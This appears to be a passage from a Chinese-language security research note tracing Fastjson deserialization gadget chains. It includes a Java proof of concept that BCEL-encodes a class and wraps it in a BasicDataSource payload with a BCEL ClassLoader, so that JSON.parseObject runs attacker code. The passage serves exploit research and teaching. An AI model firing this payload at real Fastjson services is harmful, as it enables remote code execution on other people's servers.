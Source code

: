 刚好有对应的setter去给这堆变量赋值：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006182634501.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006182743233.png)

可惜向上只能get方法触发createDataSource。只能parseObject能利用（setLogWriter没办法从json传值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006191242263.png)

```java
public static void main(String[] args) throws Exception {
    byte[] code = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\Runtime_static.class"));
    String bcel = "\""+"$$BCEL$$"+Utility.encode(code,true)+"\"";
    //payload = {
    //              "@type":"org.apache.tomcat.dbcp.dbcp.BasicDataSource",
    //              "driverClassLoader":{
    //                  "@type":"com.sun.org.apache.bcel.internal.util.ClassLoader",
    //              },
    //              "driverClassName":bcel}
    //          }
    String payload = "{" +
            "\"@type\":\"org.apache.tomcat.dbcp.dbcp.BasicDataSource\"," +
            "\"driverClassLoader\":{" +
            "\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"" +
            "}," +
            "\"driverClassName\":" + bcel +
            "}";
    System.out.println(payload);
    JSON.parseObject(payload);
}
```



wait，好像还有操作

### MapSerializer -> ASMSerializer

parse必会走到`DefaultJSONParser.parseObject(final Map object,Object fieldName)`，其中必走到这个if判断，且必走进去

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006221446313.png)

因为Object本来就是JSONObject

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006221717638.png)

JSONObject的父类是JSON，调用JSONObject.toString会走到JSON.toString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006224404531.png)

来看JSON.toString，转到JSON.toJSONString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241006214827585.png)
